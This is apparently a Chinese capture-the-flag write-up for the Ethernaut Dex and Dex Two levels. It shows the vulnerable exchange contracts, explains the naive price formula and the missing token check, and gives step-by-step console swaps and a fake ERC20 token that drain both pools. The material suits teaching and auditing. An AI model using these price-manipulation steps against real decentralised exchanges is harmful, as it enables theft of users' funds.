


<!-- more -->

#### 第二十二 / 二十三关 dex / dex 2 思路与POC

#### 目标: 

#### 合约持有token1和token2 分别为100个 ,最开始不同token分配10个给用户.

#### 想办法增加用户的token数量(两种token任意一种)并耗尽交易所的任意一种token

##### 先看代码: 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract Dex is Ownable {
  address public token1;
  address public token2;
  constructor() {}
//交易所支持转换的资产
  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  //存钱进入交易所
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);//ERC20代币转账标准实现
  }
  //交易所支持的token资产之间转换
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
  //获取转换出来的token数量
    uint swapAmount = getSwapPrice(from, to, amount);
    //用户将原始token转账到合约,目标token合约授权并转账到用户
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }
//获取转换出来的token数量 (数量*转换目标token)/原始token
  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }
//返回交易所用户所拥有某类型的token余额
  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}
/*
问题1：
闪电贷攻击:
此交易所不同token资产之间的价值转换完全是由交易所持有的不同token的数量决定的.(资产价值数据来源中心化)
假设此交易所现在token1有1000 token2有10000.
那么 token2 (10个) -> token1  = 1 .
那么如果有用户大量存入token1使其增加到10000个
那么 token2 (1个)  -> token1  = 1 
好了现在就变成了只有此交易所可以一个token2换一个token1了. 
假如这个token2是ETH token1是BTC呢? 假如用户这9000个ETH还是从其他交易所闪贷来的呢?
解决方法:chainlink预言机

问题2:此交易所的token资产转换函数是公开的,任何人都可以访问

问题3:此交易所在转换token资产的时候没有考虑浮点,
以及没有良好的手段来保持交易所不同token资金改变所导致的不同资产转换的倍率改变(问题1)
(数量*转换目标token)/原始token (X) 
所以我们将根据错误资产转换运算得到以下结果:
token1 (10) -> token2 = (10*100)/100 = 10token2 + 本来就有的10token2 = 20token2 
当前交易所token1 = 110 token2 = 90

token2 (20) -> token1 = (20*110)/90 = 24.4(24)token1
当前交易所token1 = 86  token2 = 110

token1 (24) -> token2 = (24*110)/86 = 30.6(30)token2
当前交易所token1 = 110  token2 = 80

token2 (30) -> token1 = (30*110)/80 = 41.25(41)token1
当前交易所token1 = 69  token2 = 110

token1 (41) -> token2 = (41*110)/69 = 65.3(65)token2
当前交易所token1 = 110  token2 = 45

这里只需要再转换45个token2到token1即可耗尽交易所的全部token1
token2 (45) -> token1 = (45*110)/45 = 110token1
当前交易所token1 = 0  token2 = 110
*/

//token初始分配到交易所合约
contract SwappableToken is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

##### poc思路:point_right:：根据综上分析

```solidity
//得到两种token的地址
await contract.token1()
'0x1be64D215a25D614de173d9fC7cA9a18e2197102'
await contract.token2()
'0x0e51A980c3CBB79a8664aAee5039d20733348adA'
//token合约授权交易所使用代币
await contract.approve('0xB19697904c10498CEAb57de3776Cca82CbC5fF4F',500)
//token1 -> token2
await contract.swap('0x1be64D215a25D614de173d9fC7cA9a18e2197102','0x0e51A980c3CBB79a8664aAee5039d20733348adA',10)

//token2 -> token1
await contract.swap('0x0e51A980c3CBB79a8664aAee5039d20733348adA','0x1be64D215a25D614de173d9fC7cA9a18e2197102',20)

//token1 -> token2
await contract.swap('0x1be64D215a25D614de173d9fC7cA9a18e2197102','0x0e51A980c3CBB79a8664aAee5039d20733348adA',24)

//token2 -> token1
await contract.swap('0x0e51A980c3CBB79a8664aAee5039d20733348adA','0x1be64D215a25D614de173d9fC7cA9a18e2197102',30)

//token1 -> token2
await contract.swap('0x1be64D215a25D614de173d9fC7cA9a18e2197102','0x0e51A980c3CBB79a8664aAee5039d20733348adA',41)

//token2 -> token1
await contract.swap('0x0e51A980c3CBB79a8664aAee5039d20733348adA','0x1be64D215a25D614de173d9fC7cA9a18e2197102',45)
//查看交易所剩余的token1
(await contract.balanceOf('0x1be64D215a25D614de173d9fC7cA9a18e2197102','0xB19697904c10498CEAb57de3776Cca82CbC5fF4F')).toString()
'0'

```

#### 看第二个合约代码:  

##### 目标: 不仅需要取出交易所的任意一种token,而是两种全部取出.

##### dexTwo对比dex代码变化的只有swap函数

```solidity
  /*
  似乎少了什么,对 少了非交易所内的token不能互换的判断
  这意味着什么,意味着交易所将不再校验token的合法性,意味着任何token都可以与交易所内的token进行交换.
  并且这个交易所的token互换价值是根据交易所代币池决定的,这更糟糕了.
*/

//dexTwo合约
function swap(address from, address to, uint amount) public {
->   
   require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 
//dex合约  
function swap(address from, address to, uint amount) public {
->  require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
   //获取转换出来的token数量
    uint swapAmount = getSwapPrice(from, to, amount);
    //用户将原始token转账到合约,目标token合约授权并转账到用户
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }


```

#####   poc思路:

#####   1.创建一个替代token fakeToken ,总数400个 (注意一点 ETH链的token单位是1^18,所以此处的400意思是400 / 1^18)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./ERC20/ERC20.sol";

contract ZombieToken is ERC20 {
    constructor() public ERC20("fakeToken", "FTN") {
        _mint(msg.sender, 400); //数量多点无所谓,重点是转账到交易所的数额必须是100
    }
    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}
```


#####   2.转账100个到交易所合约(使其与token1和token2达到平衡.即token之间互换价值比达到1比1)



#####   3.approve交易所合约可以使用300个FTN



#####   4.此时将100个FTN与token1互换得到100个token1(别忘了approve交易所使用token1和token2)

```js
/*
token1 地址:'0x7ddB23908309e857c05B607465d54F1F5d81087C'
token2 地址:'0x667C23424b2617A0e130D4dC79272B8fA41f00bd'
FTN 地址: 0xD61fb32F14B40Bee41990b1C23DcA02F3E86D0E9
*/
await contract.approve('0xBeb8CC9015E7432dF2a7007cF232c1725c33E2C7',500)
await contract.swap('0xD61fb32F14B40Bee41990b1C23DcA02F3E86D0E9','0x7ddB23908309e857c05B607465d54F1F5d81087C',100)
//查看此时钱包账户的token1有110个 成功
(await contract.balanceOf('0x7ddB23908309e857c05B607465d54F1F5d81087C','0x0e21d35681E679C33dD49731935FB81F1aee8C05')).toString()
'110'
```


##### 5.此时交易所分别有token2 100个 FTN 200 个,那么需要200个FTN才能换取100个token2

```js
await contract.swap('0xD61fb32F14B40Bee41990b1C23DcA02F3E86D0E9','0x667C23424b2617A0e130D4dC79272B8fA41f00bd',200)
//查看此时钱包账户的token2也有110个 成功
(await contract.balanceOf('0x667C23424b2617A0e130D4dC79272B8fA41f00bd','0x0e21d35681E679C33dD49731935FB81F1aee8C05')).toString()
'110'
```

